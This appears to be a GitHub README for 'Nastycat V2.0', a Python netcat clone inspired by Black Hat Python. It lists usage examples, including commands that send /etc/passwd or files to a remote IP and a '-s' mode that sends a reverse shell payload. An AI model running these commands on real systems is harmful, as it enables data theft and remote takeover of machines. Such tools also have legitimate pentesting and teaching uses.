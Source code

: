 # NASTYCAT V2.0

Nastycat is a tool completely made using python for replacing NetCat utility. The first version uses the pwntools framework which is not natively installed with installation of python. But this 2.0 version does not use any libraries that are not preinstalled with python. This allows it to be useful in many situation where the first version would not. Moreover it offers better features than that previous one.

CREDIT - The concept of this tool is from Black Hat Python by Justin Seitz.

## Features

It is very likely to original NetCat.
- It can connect to a server and deliver data on both sides.
- It can also listen for connections on a specific port.

A great feature includes execute mode.
- When specified with listening mode, it executes specified command on local system and starts a server. When someone connects to it, delivers the output.
- Else it will execute the command and send output to the server.

Also includes an upload mode.
- When in listening mode, receives the client output and saves it to the specified file.
- When connected to a server, sends the contents of the specified file to the server.

Now a shell mode is included.
- When enabled with listening mode, activates a server, when a client connects, provides the client access to the server machine's terminal. When client disconnects, repeats the same until it is manually killed.
- When enabled in client mode, invokes an actual reverse shell payload to be sent to the server which allows the server to access the client's terminal.

Note - This is now only supported in linux or linux based operating systems. It does not works as it is supposed to in windows systems.

## Examples

```bash
python3 ./nastycat_v2.py 192.168.3.41 -p 4444 # connect to server at port 4444
```
```bash
python3 ./nastycat_v2.py -l # listens on default port 4444
```
```bash
python3 ./nastycat_v2.py -lp 5555 # listens on port 5555
```
```bash
python3 ./nastycat_v2.py -e "cat /etc/passwd" 192.168.3.41 -p 8080 # sends the output to port 8080
```
```bash
python3 ./nastycat_v2.py -le "cat /etc/passwd" # listens on port 4444 and sends the output when client connects
```
```bash
python3 ./nastycat_v2.py -lu test.txt # receive client data and save it to specified file.
```
```bash
python3 ./nastycat_v2.py -u file.txt 192.168.3.41 -p 8080 # read the file contents and send it to the server.
```
```bash
echo -ne "GET / HTTP/1.1\r\nHost: www.google.com\r\n\r\n" | python3 ./nastycat_v2.py google.com 80 # same old school method of invoking web requests.
```
```bash
python3 ./nastycat_v2.py -s 192.168.3.41 -p 5555 # sends an actual reverse shell payload to the server. Note - do not works in windows.
```
```bash
python3 ./nastycat_v2.py -ls # starts a server, when a client connects, gets access to the servers terminal.
```

Note - This script may require root priviledges on some scenarios.

## Contribution
Any body can voluntarily contribute to this project if he/she has a better idea.
If so, please contact me on my [Insta Handle](https://www.instagram.com/sayanray385/).
